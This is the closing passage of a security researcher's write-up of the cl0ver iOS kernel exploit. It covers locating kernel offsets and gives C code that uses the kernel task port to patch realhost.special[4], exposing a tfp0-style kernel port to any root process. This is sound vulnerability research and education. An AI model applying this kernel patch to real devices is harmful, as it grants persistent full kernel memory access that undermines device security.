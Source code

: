 ~~~*Note: I planned for an offset finder to be implemented in [`find.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/find.c), but I haven't gotten round to it. I'm just lining out how the addresses could be found.*~~~

-   `is_io_service_open_extended` stack size  
    The function contains the only reference within the kernel to the string `"IOUserClientCrossEndian"`. Once we find the reference, we find the function and can derive the stack size from the code.

-   `OSUnserializeXML` stack size and return address  
    The function contains the only reference within the kernel to `"/Library/Caches/com.apple.xbs/Sources/xnu/xnu-3248.60.9/libkern/c++/OSSerializeBinary.cpp"`.  
    Stack size is trivial, the return address is from the `ret` instruction backwards until `0` is moved into the register that is subsequently moved to `x0`.

## Part Four: Patching the kernel

The patch we're gonna apply is as follows:

    realhost.special[4] = kernel_task->itk_self;

With access to the kernel task port, applying that patch is a simple matter of using `vm_read` and `vm_write` (omitted error handling):

    addr_t *special = (addr_t*)offsets.slid.data_realhost_special;
    vm_address_t kernel_task_addr,
                 kernel_self_port_addr;
    vm_size_t size;

    // Get address of kernel task
    size = sizeof(kernel_task_addr);
    vm_read_overwrite(kernel_task, (vm_address_t)offsets.slid.data_kernel_task, sizeof(kernel_task_addr), (vm_address_t)&kernel_task_addr, &size);

    // Get address of kernel task/self port
    size = sizeof(kernel_self_port_addr);
    vm_read_overwrite(kernel_task, kernel_task_addr + offsets.unslid.off_task_itk_self, sizeof(kernel_self_port_addr), (vm_address_t)&kernel_self_port_addr, &size);

    // Write to realhost.special[4]
    vm_write(kernel_task, (vm_address_t)(&special[4]), (vm_address_t)&kernel_self_port_addr, sizeof(kernel_self_port_addr));

This isn't technically true to the name "tfp0", but it allows any binary running as root to retrieve the kernel task port via

    host_get_special_port(mach_host_self(), HOST_LOCAL_NODE, 4, &kernel_task);

*The full implementation of this can be found in the `patch_host_special_port_4` function in [`exploit.c`](https://github.com/Siguza/cl0ver/blob/master/src/lib/exploit.c)*

## Conclusion

**Holy. Shit.**

That was awesome!  
It was also a whole lot of work, and this writeup is by far the longest thing I've ever written.  
Glad you stayed with me 'till the end! :D

And phew, I've learned an insane amount of things while doing this. I had doubts whether I was even gonna make it to the end, but it turns out I did, and I'm glad about that.  
If you're trying to get into exploitation like me, I can only recommend doing a project like this. Grab some publicly disclosed vulnerabilities that have been fixed in the latest iOS but to which your device is still vulnerable, start playing around with them, and see what you can get out of it. No amount of reading could replace such an experience. :)

~~~